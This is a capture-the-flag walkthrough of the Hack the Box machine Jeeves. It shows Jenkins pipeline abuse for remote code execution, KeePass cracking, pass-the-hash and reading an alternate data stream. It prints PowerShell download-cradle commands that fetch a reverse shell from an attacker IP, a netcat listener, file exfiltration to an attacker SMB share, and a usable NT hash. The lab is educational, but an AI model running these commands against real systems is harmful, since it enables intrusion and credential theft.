# Jeeves - Medium Windows Write-Up
---
Jeeves is a medium machine from Hack the Box that requires us to exploit an unauthenticated Jenkins instance to gain remote code execution on the target system. We must then escalate privileges by locating and cracking the password has located in a keepass database file. This database file contains an NT hash for the Administrator user that we can use to mount a pass-the-hash attack and gain administrative code execution through psexec. Lastly, we must read from a file's alternate data stream to get the root flag and complete the machine.
## Initial Scanning
---
In order to determine what open ports we can attempt to attack on the machine, we start out with a simple nmap scan: `nmap -sV -p- 10.10.10.63`

Note that I have chosen to only show an all ports scan in this writeup because there is a port outside of the top 1000 default nmap ports with a vulnerable service.

The nmap scan gives us the following information:
```text
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-28 17:05 EDT
Nmap scan report for jeeves.htb (10.10.10.63)
Host is up (0.10s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT      STATE SERVICE      VERSION
80/tcp    open  http         Microsoft IIS httpd 10.0
135/tcp   open  msrpc        Microsoft Windows RPC
445/tcp   open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
50000/tcp open  http         Jetty 9.4.z-SNAPSHOT
Service Info: Host: JEEVES; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 423.32 seconds
```

## Avoiding the Red Herring on Port 80
---
First, we inspect the http server on port 80, where we find a clone of the askjeeves home page:


If we attempt to enter a search term on the askjeeves page, we find there is some sort of SQL error displayed on the page:


Unfortunately for us, this error appears to just be an image that is sent back on every request (as evidenced by the png shown in the source):


Since it does not appear that we are actually triggering an SQL error, we can move on to continue examining the remaining attack surface.

## Preforming Enumeration to Find an Unauthenticated Jenkins Instance
---
Upon navigating to the 50000 port in a web browser, we see that there appears to be a jetty web server:


In order to determine if any pages of interest are served by the Jetty web server, we can perform a directory brute-force attack with the following ffuf command: `ffuf -u http://10.10.10.63:50000/FUZZ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt -ic`

The output from this command shows us that there is an /askjeeves directory served on the web server:
```text

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v1.3.1 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.10.63:50000/FUZZ
 :: Wordlist         : FUZZ: /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-lowercase-2.3-small.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
________________________________________________

askjeeves               [Status: 302, Size: 0, Words: 1, Lines: 1]
:: Progress: [81630/81630] :: Job [1/1] :: 306 req/sec :: Duration: [0:04:53] :: Errors: 0 ::
```

Upon browsing to this page in a web browser, we find that the /askjeeves directory serves up a Jenkins instance that is running without authentication enabled:


## Remote Code Execution using Jenkins Scripts
---
Jenkins is a continuous integration tool that provides the ability to write custom scripts that will run during the execution of a build pipeline. In order to provide this functionality, Jenkins allows for the execution of system commands within its scripts (in the case of the payload below, powershell commands). We can use this functionality to gain access to the target using a reverse shell.

The first step for executing a custom script in Jenkins is to navigate to the new item dialog where we can create new object (including a build pipeline):


We then must choose to create a new pipeline and give it a name (in this case, we just use ReverseShell, but a more difficult to detect name would typically be recommended):


We then scroll down to the pipeline pane in the next dialog and enter the malicious script. In this case, we will use a powershell download cradle to retrieve a reverse shell payload from our attacking machine and execute it. We must also uncheck the "Use Groovy Sandbox" option to prevent our payload from being sandboxed:


We will use the following payload (as shown in the image above) to gain a reverse shell on the machine. This payload will call out to a powershell reverse shell provided by the nishang framework (https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1):
```text
node {
   powershell("whoami")
   powershell("IEX(New-Object Net.WebClient).downloadString('http://10.10.14.20:8000/Invoke-PowerShellTcp.ps1')")
}
```

Before we can execute the payload to get a reverse shell, we must modify the Invoke-PowerShellTcp.ps1 script. The new modification will cause the script to actually call back with a reverse shell, rather than just defining the Invoke-PowerShellTcp cmdlet. The line to be added to the end of the file is the following: `Invoke-PowerShellTcp -Reverse -IPAddress 10.10.14.14 -Port 443`

Now that we have our reverse shell prepared, we can serve the reverse shell script on a python web server. This web server will send the reverse shell payload back to the target machine when the Jenkins payload executes. To create the python web server, we can use the following command from the directory containing the reverse shell script (this command will serve the payload on port 8000 by default): `python3 -m http.server`


The last step to prepare for payload execution is to start a listener that will catch our reverse shell. We can create this listener using netcat with the following command: `nc -nlvp 443`

In order to trigger our payload, we must simply run the build pipeline in Jenkins. We can run the build pipeline by clicking the "Build Now" option on ReverseShell build pipeline page:


Once we have pressed the "Build Now" button in Jenkins, we will see that we have received a reverse shell prompt on our netcat listener. This shell is running as the kohsuke user:


We can now navigate to the kohsuke user's Desktop directory, where we are able to print the user flag:


## Privilege Escalation by Cracking the Password for a Keepass Wallet
---
By performing some manual enumeration with kohsuke's home directory, we find a kdbx file in C:\\Users\\kohsuke\\Documents:


Files with the kdbx extension are used to store the database of passwords for the keepass password manager. If we are able to crack the password for the keepass file, we may find some sensitive information that could help us to escalate privileges on the target machine.

Before we can attempt to crack the password for the kdbx file, we must transfer it to our attacking machine. We can transfer this file to our machine using smb with impacket's smb server tool. To start an smb server with the share name "kali" on our attacking machine, we can use the following command: `impacket-smbserver kali . -smb2support`


We can then issue the following command from the target machine to copy the keepass file back to our attacking machine: `cp .\CEH.kdbx \\10.10.14.14\kali\CEH.kdbx`

Now that we have the kdbx file downloaded from the target machine, we must extract the hash from the kdbx file before we can attempt to crack the password for the keepass wallet. In order to extract the hash, we can use a file called keepass2john:


In plaintext, this is the hash we have received: `CEH:$keepass$*2*6000*0*1af405cc00f979ddb9bb387c4594fcea2fd01a6a0757c000e1873f3c71941d3d*3869fe357ff2d7db1555cc668d1d606b1dfaf02b9dba2621cbe9ecb63c7a4091*393c97beafd8a820db9142a6a94f03f6*b73766b61e656351c3aca0282f1617511031f0156089b6c5647de4671972fcff*cb409dbc0fa660fcffa4f1cc89f728b68254db431a21ec33298b612fe647db48`

We can then attempt to crack the password contained in the keepass file by using John the Ripper with the following command: `john --wordlist=/usr/share/wordlists/rockyou.txt ./keepass.hash`

John successfully cracks the hash to show us that the password for the keepass wallet is `moonshine1`:


We can now use the `kpcli -kdb ./CEH.kdbx` command in order to read what is stored in the keepass file. We will be prompted for a password, where we can enter the password (`moonshine1`) that we found above. Upon reading the file, we can list its contents to see that there is a /CEH directory. If we list this directory, we can see that there is a list of entries that are stored within the keepass database:


We can then begin to list the contents of each entry one-by-one to see if they contain any useful information. We use the `show -f <index>` command to list the entry contents. In the entry at index 0 (named "Backup Stuff"), we can see what appears to be an NT hash:


Since we now have a potential hash on the machine, we can use smbmap to test if we can authenticate to the server using a pass-the-hash attack. We can perform this attack using the `smbmap -u Administrator -p 'aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00' -H 10.10.10.63` command, which will tell us that we have write access over the ADMIN$ share:


Since we have write access to the ADMIN$ share, we should be able to psexec into the machine to gain command execution as NT AUTHORITY\\SYSTEM. We can attempt this attack with the following command: `smbmap -u Administrator -p 'aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00' -H 10.10.10.63 -x "powershell /c IEX(New-Object Net.WebClient).downloadString('http://10.10.14.14:8000/Invoke-PowerShellTcp.ps1')" --mode psexec`

Note that for the above command to work properly, we must still be serving the nishang reverse shell on an http server using port 8000, and we must also reset the netcat listener to accept the new reverse shell from the server.

When the command executes, we can see that we have successfully gained super user command execution on the target machine:


## Identifying the Root Flag Location in an Alternate Data Stream
---
Now that we are able to execute commands with administrative privileges, we can attempt to read the root flag from the Administrator's Desktop directory. Unfortunately, when we list the Administrator's desktop, we do not see the root flag, but rather we see a file called hm.txt. The contents of the hm.txt file inform us that the flag is elsewhere on the system:


We can check the Administrator's Desktop directory to see if there are any files containing alternate data streams in which the root flag may reside. We can perform this check using the following command: `cmd.exe /c "dir /r /a"`

After listing the dataset again, we can see that the root.txt file is an alternate data stream within the hm.txt file:


Note that we must use the "cmd.exe /c" wrapper around the above command because we are operating from within a powershell session, and powershell has different options for the dir command than the standard command prompt. The same technique is used below to read the alternate data stream.

In order to print out the real flag, we can use the following command: `cmd.exe /c "more < hm.txt:root.txt"`

